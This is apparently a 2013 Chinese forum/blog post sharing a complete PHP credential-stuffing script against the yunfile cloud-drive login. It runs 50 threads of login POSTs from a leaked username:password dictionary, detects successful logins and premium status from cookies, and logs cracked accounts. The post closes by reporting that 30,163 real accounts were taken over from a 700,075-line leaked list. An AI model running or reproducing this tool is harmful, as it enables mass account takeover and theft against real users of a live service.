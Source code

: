 ```yaml
---
title:  yunfile网盘多线程破解
date: 2013-8-20 13:42
tags:
---
```


文章2013-8-20 13:42 发于[t00ls](https://www.t00ls.net/thread-23935-1-1.html)
引用[rolling-curl](https://github.com/chuyskywalker/rolling-curl)
```php
<?php
/*
参考代码文章:www.searchtb.com/2012/06/rolling-curl-best-practices.html
*/
error_reporting(0); //不显示错误
ini_set('memory_limit',-1); //内存设置最高

/*

 @params $str 输入字符 $type 所需获取编码

*/
function autoiconv($str,$type = "gb2312//ignore"){
    $utf32_big_endian_bom = chr(0x00) . chr(0x00) . chr(0xfe) . chr(0xff);
  $utf32_little_endian_bom = chr(0xff) . chr(0xfe) . chr(0x00) . chr(0x00);
  $utf16_big_endian_bom = chr(0xfe) . chr(0xff);
  $utf16_little_endian_bom = chr(0xff) . chr(0xfe);
  $utf8_bom = chr(0xef) . chr(0xbb) . chr(0xbf);
$first2 = substr($str, 0, 2);
  $first3 = substr($str, 0, 3);
  $first4 = substr($str, 0, 3);
    if ($first3 == $utf8_bom) $icon = 'utf-8';
    elseif ($first4 == $utf32_big_endian_bom) $icon = 'utf-32be';
    elseif ($first4 == $utf32_little_endian_bom) $icon = 'utf-32le';
    elseif ($first2 == $utf16_big_endian_bom) $icon = 'utf-16be';
    elseif ($first2 == $utf16_little_endian_bom) $icon = 'utf-16le';
    else { $icon = 'ascii'; return $str;}
    return iconv($icon,$type,$str);
}

require("./include/RollingCurl.php"); //载入多线程类

$threads=50; //线程
$timeout=10; //设置超时
$dic_file='./dict/user.txt';//设置加载字典文件
$dict=file($dic_file);//设置字典
$count=count($dict);
echo '[info] 载入字典文件:'.$dic_file.PHP_EOL ;
echo '[info] 加载 '.$count.'行字典'.PHP_EOL ;
echo '[info] 线程:'.$threads.PHP_EOL ;
echo '[info] 超时设定:'.$timeout.PHP_EOL ;
usleep(500);
echo '[info] 程序初始化中...'.PHP_EOL ;
 
function request_callback($response, $info, $request) {
$p= $request->post_data;
preg_match('/module\=member&action\=validateLogin&username\=(.*?)&password\=(.*?)&remember\=on/',$p,$mm);
$user=$mm[1];
$pass=$mm[2];

//判断登录状态以及用户权限
if(!preg_match('/^Set-Cookie:[\s]+membership=(\d{1}).*?;+/mi', $response,$match)) {

        echo '[!] 登录失败    '.'用户名:'.str_pad($user,18," ").'密码:'.str_pad($pass,18," ").PHP_EOL;
}else{
$id=$match[1];
$id= intval(trim($id));
if($id==1){$m='普通会员';}
else if($id==2){$m='高级会员';}
else{        $m='未知情况';}
$str= '[*] 登录成功    '.'用户名:'.str_pad($user,18," ").'密码:'.str_pad($pass,18," ").'权限:'.$m.PHP_EOL;
file_put_contents('./log/logins.txt',$str,FILE_APPEND); //保存扫描结果
echo $str;
 }

}
 

$rc = new RollingCurl("request_callback");

$rc->window_size = $threads; //设置线程
$rc->timeout = $timeout; //设置超时
$method='POST';

$u=array('');
$p=array('');
$url='http://www.yunfile.com/view';

foreach ($dict as $k=> $s){
list($u[$k], $p[$k]) = explode(':',trim(autoiconv($s)));
$username=$u[$k];
$password=$p[$k];
$username;
$post_data='module=member&action=validateLogin&username='.$username.'&password='.$password.'&remember=on';
$request = new RollingCurlRequest($url,$method,$post_data); //CURLOPT_FOLLOWLOCATION=>1 自动跳转  为0 不跳转
$request->options = array(CURLOPT_FOLLOWLOCATION => 0,
                        CURLOPT_NOBODY => 1,
                        CURLOPT_HEADER => 1                                                                                                );
  
    $rc->add($request);

}
$rc->execute();

?>
```
![2019-07-19-04-25-40](https://wolvez.oss-cn-hangzhou.aliyuncs.com/f7fbd1c9beda5e74dbee683271c916d8.png)
![2019-07-19-04-25-52](https://wolvez.oss-cn-hangzhou.aliyuncs.com/742129f624db4b0ad1f2d9f2232b8cdb.png)
![2019-07-19-04-26-04](https://wolvez.oss-cn-hangzhou.aliyuncs.com/8dcb1518743f3c7934f8b0049b4b52c3.png)
![2019-07-19-04-26-14](https://wolvez.oss-cn-hangzhou.aliyuncs.com/c9cdcefc02dc36477cfb424982bbced9.png)


加载了某市面上泄露的网盘 700075 行用户密码列表(大小 13mb)成功登录 30163个有效帐号
其中 495个高级会员
耗时 3小时
